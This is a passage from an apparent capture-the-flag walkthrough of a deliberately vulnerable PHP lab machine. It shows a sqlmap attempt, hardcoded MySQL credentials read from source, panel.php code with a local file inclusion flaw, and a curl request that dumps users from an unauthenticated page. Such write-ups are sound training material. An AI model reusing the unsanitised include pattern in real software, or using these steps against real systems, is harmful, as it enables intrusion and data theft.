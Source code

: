 On the basis that I may be missing something, I ran sqlmap against the form too, but it also failed to find an injection method.

Although I was sure there is a method of getting around this form that I'm just not seeing, I moved on analysing the source code to see what else I could find.

Lines 4 and 5 of `index.php` included two other files, so I used `test.php` to learn more about them.

The source code of `head.php` contained nothing interesting; it was just markup being used for presentation purposes. The source code of `c.php`, on the other hand, revealed the credentials being used to establish the MySQL connection that is used throughout the rest of the script:

```php
$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");
```

Continuing with the analysis of the source code, I took a look at the `panel.php` file that users are redirected to if they successfully login.

The source code of this file showed that it provides users with a dropdown menu to select what they wish to view, but which also introduces a local file inclusion vulnerability (LFI) on line 52:

```php
if(isset($_POST['continue']))
{
  $dir=getcwd();
  $choice=str_replace('./','',$_POST['load']);

  if($choice==='add')
  {
    include($dir.'/'.$choice.'.php');
    die();
  }

  if($choice==='show')
  {
    include($dir.'/'.$choice.'.php');
    die();
  }
  else
  {
    include($dir.'/'.$_POST['load']);
  }
}
```

Next, I looked at `show.php` (one of the files available via the dropdown), which shows that there is no session validation at all in that file, as it is relying on the parent script handling it; meaning we can use this to disclose a list of the users in the system.

Doing so reveals that there are two users in the system, Jack Sparrow and Captain Barbossa:

```shell_session
curl --data "continue=true" http://10.2.0.104/show.php

<table width=90% >
    <tr>
	<td>ID</td>
	<td>User</td>
	<td>Address</td>
	<td>Image</td>
    </tr>
    <tr>
	<td>1</td>
	<td>Jack</td>
	<td>Jack sparrow, Pirate of the caribbean</td>
	<td>
	    <img src="uploaded_images/jack.jpg" height=90px width=100px>
```